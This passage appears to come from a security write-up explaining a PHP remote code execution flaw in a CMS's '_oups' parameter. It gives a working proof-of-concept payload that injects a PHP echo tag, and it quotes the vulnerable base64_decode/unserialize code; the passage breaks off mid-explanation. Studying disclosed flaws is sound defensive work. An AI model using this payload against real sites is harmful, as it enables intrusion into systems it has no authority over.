 Well, well, well, what could have happened between those two messages ? 

Hint :

<img src="../images/49dd8834df7e677b12ff2505ad2a9b50ebbccb5feda0e8145469e178a44adbb6.png" width=450>

Answer (`_oups=czoxOiJhIjtpOjE6MDs=%27"><?php%20echo(%27RCE%27)?>`) :

![picture 21](../images/268dc8e7967375a7ec418d84cba4f56b5405477f8758cb073c6cb9d9bcb30dd9.png)  

The php tags are gone, and we can see the letters "R","C","E" kindly appearing on our screen :).

What is happening :

```
if (_request('annuler_oups') and $oups = _request('_oups') and $oups = base64_decode($oups) and $oups = unserialize($oups))
```

So, it first checks for a valid base64_decode, which is true. Then for a valid base64 object, which is also true (the object instantiates a string "a" of length 1) :

![picture 40](../images/test_b64decode_unserialize.png) 
